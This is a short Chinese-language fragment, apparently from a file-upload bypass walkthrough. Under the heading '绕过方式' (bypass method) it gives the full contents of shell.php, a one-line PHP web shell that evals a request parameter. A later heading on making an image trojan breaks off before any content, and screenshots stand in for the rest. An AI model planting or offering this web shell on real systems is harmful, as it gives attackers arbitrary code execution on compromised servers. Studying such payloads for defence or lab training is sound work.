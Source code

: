 ![image-20230830201054731](./imgs/e00542ced1b5a0810b154e13b67bfc19.png)

**绕过方式：**

`shell.php`内容

```php
<?php @eval($_REQUEST[6868])?>
```

![image-20230830201527499](./imgs/f5d81e3c266db52013cd78b7b71a9cd0.png)

图片木马制作：
